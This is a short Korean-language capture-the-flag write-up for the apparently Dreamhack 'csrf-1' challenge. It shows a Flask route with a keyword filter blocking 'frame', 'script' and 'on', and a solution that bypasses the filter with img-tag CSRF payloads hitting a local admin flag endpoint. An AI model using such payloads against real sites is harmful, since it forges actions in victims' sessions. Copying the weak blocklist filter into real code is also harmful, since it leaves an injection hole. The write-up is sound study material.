 # csrf-1

[xss-2](https://github.com/iamjames77/Dreamhack/blob/main/Document/Level%201/268.md)에 필터를 추가한 문제이다. 

```python
@app.route("/vuln")
def vuln():
    param = request.args.get("param", "").lower()
    xss_filter = ["frame", "script", "on"]
    for _ in xss_filter:
        param = param.replace(_, "*")
    return param
```

script나 on을 이용할 수 없으므로 img의 src를 이용하면 풀 수 있다.


```html
<img src="http://127.0.0.1:8000/admin/notice_flag?userid=admin">
<img src="http://127.0.0.1:8000/memo?memo=hello">
```
